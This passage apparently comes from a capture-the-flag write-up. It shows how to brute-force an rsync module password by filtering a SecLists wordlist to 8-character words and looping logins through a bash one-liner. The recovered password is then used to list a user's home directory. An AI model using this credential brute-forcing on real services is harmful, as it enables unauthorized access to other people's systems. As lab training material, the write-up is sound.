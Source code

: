 I can’t see the `rsyncd.secrets` file, but I know it is 13 bytes in length from above. That’s likely `roy:` + 8 character password + a new line.

I’ll create a wordlist of 8 byte words from [SecList’s](https://github.com/danielmiessler/SecLists) `10-million-password-list-top-100000.txt`

```

root@kali# grep -E '^.{8}$' /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt > 10-million-password-list-top-100000-8char.txt
root@kali# ls -l 10-million-password-list-top-100000-8char.txt 
-rwxrwx--- 1 root vboxsf 307611 Sep  1 07:20 10-million-password-list-top-100000-8char.txt

```

I can connect to `rsync` without providing a password using the `RSYNC_PASSWORD` environment variable. If I set it to “password”, the connection still fails, but without prompting for a password:

```

root@kali# export RSYNC_PASSWORD=password
root@kali# rsync --list-only rsync://roy@[dead:beef::250:56ff:feb9:7e7c]:8730/home_roy
...[snip]...
@ERROR: auth failed on module home_roy
rsync error: error starting client-server protocol (code 5) at main.c(1675) [Receiver=3.1.3]

```

Now I can loop over my wordlist, setting the environment variable, and try to log in with a `bash` one-liner:

```

root@kali# cat 10-million-password-list-top-100000-8char.txt | while read pass; do export RSYNC_PASSWORD=${pass}; rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 2>&1 | grep -q "auth failed on module home_roy" || { echo "[+] Found password: ${RSYNC_PASSWORD}"; break; } done
[+] Found password: computer

```

Breaking that down:
- Dumps the password list into a `while read` loop.
- For each password, it saves it to the environment variable with `export.
- It then tries to `rsync`, piping the results (both stdout and stderr) into a `grep`.
- The `grep` will match on “auth failed on module home\_roy”, and return true if matched.
- `||` is an or, so if the previous command (`grep`) failed (doesn’t find that failure note), it will run the commands between the `{ }`.
- In this case, that means print the password, and then exit the loop.

### Copy Files

Now with roy’s password, I can access that home directory:

```

root@kali# rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 
...[snip]...
drwxr-xr-x          4,096 2019/07/28 06:52:29 .
lrwxrwxrwx              9 2019/07/27 06:57:06 .bash_history
-rw-r--r--            220 2019/07/27 03:03:28 .bash_logout
-rw-r--r--          3,526 2019/07/27 03:03:28 .bashrc
-rw-r--r--            807 2019/07/27 03:03:28 .profile
-rw-------          4,752 2019/07/27 05:24:24 .tudu.xml
-r--r--r--             33 2019/07/27 05:24:24 user.txt

```
